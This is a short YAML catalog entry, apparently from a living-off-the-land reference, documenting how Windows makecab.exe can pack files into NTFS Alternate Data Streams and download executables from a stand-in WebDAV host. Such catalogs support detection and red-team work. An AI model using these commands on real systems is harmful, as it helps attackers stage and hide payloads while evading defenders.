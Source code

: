 ---
Name: Makecab.exe
Description: Package, Add ADS, Download
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: makecab c:\ADS\autoruns.exe c:\ADS\cabtest.txt:autoruns.cab
    Description: Compresses the target file into a CAB file stored in the Alternate Data Stream (ADS) of the target file.
  - Command: makecab \\webdavserver\webdav\file.exe C:\Folder\file.cab
    Description: Compresses the target file and stores it in the target file.
  - Command: makecab \\webdavserver\webdav\file.exe C:\Folder\file.txt:file.cab
    Description: Compresses the target file into a CAB file stored in the Alternate Data Stream (ADS) of the target file.
Full Path:
  - c:\windows\system32\makecab.exe
  - c:\windows\sysWOW64\makecab.exe
Code Sample: []
Detection: []
Resources:
  - https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
Notes: Thanks to Oddvar Moe - @oddvarmoe

